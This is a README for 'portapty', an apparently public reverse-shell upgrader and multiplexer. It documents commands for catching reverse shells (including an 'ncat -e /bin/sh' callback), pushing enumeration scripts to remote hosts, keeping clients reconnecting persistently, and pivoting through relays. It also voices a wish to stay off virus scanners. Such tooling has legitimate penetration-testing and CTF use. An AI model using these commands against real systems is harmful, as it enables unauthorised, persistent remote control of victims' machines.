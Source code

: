 # portapty

## What?
This is a portable pseudoterminal resilient reverse shell upgrader and multiplexer with daemonisation
### What???
Portable: works on any linux version that can run this elf type (it's all statically linked and posix compliant)

Pseudoterminal: you can Control-C without killing the shell (unless the `pty off` option is given)

Resilient: The client will keep trying to reconnect (unless the `persist off` option is given)

Reverse shell: I haven't made it support bind shells yet

Upgrader: When a normal shell connects to it and doesn't try to TLS handshake with it,
it will be upgraded in a posix-compliant manner (this should even work on Linux from scratch boxes using `dash`)

Multiplexer: Multiple shells can connect at once

Daemonisation: The upgraded reverse shells get completly detached from the parent process

## Usage
```
portapty {client|server|keygen|relay} OPTIONS
Options:
    client: [cert CERTHASH] to IP PORT [to IP PORT]...
    server: [cert CERTFILE] [key KEYFILE] [driver CMD] [cmd CMD] [pty {on|off}] [persist {on|off}] bind IP PORT [{bind|advert} IP PORT]...
    keygen: [cert CERTFILE] [key KEYFILE]
    relay:  bind IP PORT to IP PORT [{bind|to} IP PORT]...
```
### Server
A simple invocation would be `portapty server bind :: 42069`. This hosts a server on port 42069 that will accept
both standard reverse shells on all IPv4 and v6 addresses (dual to IPv6 dual stacking) and portapty clients. 

On connection (like by `ncat -e /bin/sh :: 42069`), you will see messages like:
```
[portapty] SuperSecureServer ([::1]:57388) available on /dev/pts/63
```
If you run `screen /dev/pts/63` on this created pty, you will be able to interact with it fully, as if it were an ssh session.

This will, however, tell standard reverse shells to connect to `[::]:42069`, which will only work on localhost. If you want to bind to a specific ip, you can try
```
portapty server bind 10.0.0.1 42069
```
Which, if you can bind to 10.0.0.1, will bind to just that v4 address, and tell all reverse shells to upgrade and connect to that endpoint.

For more customisation, you can use the `advert` options, which will give a list of endpoints that clients can connect to
```
portapty server bind :: 42069 advert 10.0.0.1 31337
```
This will tell upgraded clients to reconnect to 10.0.0.1:31337 (but NOT `[::]:42069`).

If you had a script you wished to run on the remote, you could try the folowing:

```sh
portapty server driver 'cat >&2&cat /tmp/LinEnum.sh;echo sleep 1;echo exit;wait' cmd bash bind :: 42069
```

This is good demonstration of the features provided to drivers. Let's break down the shell command argument for driver:
* `cat >&2 &` will grab the output of the remote shell, and pass it to stderr, which is then printed to the server terminal, and then move to the background
* `cat /tmp/LinEnum.sh` will send the script `/tmp/LinEnum.sh` to the remote shell
* `echo sleep 1` sends the command `sleep 1` to the remote shell, giving us time to flush the output before disconnecting
* `echo exit` will tell the remote shell to close
* `wait` will wait for the cat command to finish, which will be when the remote closes
We also elect to use `bash` rather than the standard shell with the system, which will make most scripts run better. Note that some extra things have happened due to our usage of `driver`:
* `pty off` is implied (can be undone with a `pty on` after the `driver CMD` option), so that this looks like a normal pipeline
* `persist off` is implied (can be undone with a `persist on` after the `driver CMD` option), so that the client won't keep reconnecting

### Client
It is rather irregular to invoke the client directly, but if you are particularly worried about security, or are working with an arbitrary upload vulnerability, this could be helpful. 

For a simple connection WITHOUT verifying the server, you can use just `portapty client to :: 42069`, but for securing it, you can use:
```
portapty client cert iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo= to :: 42069
```
This will check that the certificate SHA2-256 hash is `iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo=`, and fail if it isn't.

### Keygen
If you have an unstable computer/connection, or are trying some HA system, you may wish to use the `keygen` option. An example is the following:

```
portapty keygen key portapty.key cert portapty.crt
```

This will print the fingerprint as well, so that you can prepare clients before starting the server

The server can be to to use the certificate and key like so:

```
portapty server key portapty.key cert portapty.crt
```
### Relay and expose
This is one of the cooler features of portapty. This acts as a simple TCP forwarder, and so allows pivoting with a central server:

```sh
# Main server
portapty server key portapty.key cert portapty.crt bind 10.0.0.1 42069
# Pivot server
portapty relay bind 192.168.0.1 42069 to 10.0.0.10 42069
# Target server
portapty client cert FinGeRpRInt= to 192.168.0.1 42069
```

Since the client is encrypted end-to-end, this unencrypted relay usage is secure. However, `relay` could also be used as a port forwarder, which would not have encryption. I'm not sure how to encrypt this well bidirectionally: feel free to submit a pull request!

### High availability
The release client has a `while(1)` loop to stop temporary disconnects from messing up your network, and paired with multiple endpoint specifications, this can be used to achieve a very resiliant network.

```
# Relay to the first accepting server
portapty relay bind :: 42069 to 10.0.0.1 42069 to 10.0.0.2 42069
# Connect to the first server that accepts us
portapty client to 10.0.0.1 42069 to 10.0.0.2 42069
# Tell upgraded clients to try multiple addresses (note the repeated ep in bind and advert)
portapty server bind 10.0.0.1 42069 advert 10.0.0.1 42069 advert 10.0.0.2 42069
```

## Disclaimer
Please don't do anything stupid with this (i.e. anything outside pentesting and ctfs). 
It isn't currently on any virus scanners, and I would prefer it to stay that way. 
It has a easy to detect signature, so it ain't stealthy.
